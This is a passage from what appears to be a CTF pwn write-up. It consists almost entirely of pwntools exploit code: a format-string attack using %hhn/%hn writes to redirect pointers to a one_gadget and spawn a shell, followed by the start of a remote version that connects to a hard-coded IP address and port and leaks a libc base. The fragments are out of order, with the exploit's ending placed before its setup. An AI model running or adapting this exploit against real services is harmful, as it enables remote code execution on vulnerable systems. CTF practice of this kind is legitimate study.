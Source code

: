 ```bash
sla('What do you want to say?\n','%'+str(num)+'c%8$hhn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str(0xaa)+'c%10$hhn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str((og//0x10000)&0xffff)+'c%29$hn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str(0xac)+'c%10$hhn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str(free&0xff)+'c%29$hhn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str(0xad)+'c%10$hhn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str(free1)+'c%29$hhn')
#gdb.attach(p)
'''
'''
itr()
```

## exp (远程)

```bash
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'


#p=process('./pwn')
p=remote('60.204.130.55',10010)
elf = ELF('./pwn')
libc = ELF('./libc.so.6')

sla('Do you know who the best pwner is?\n','TokameinE_is_the_best_pwner\0')

sla('What do you want to say?\n','%18$p')
ru('0x')
libcbase = int(r(12),16) - 0x5f1168
```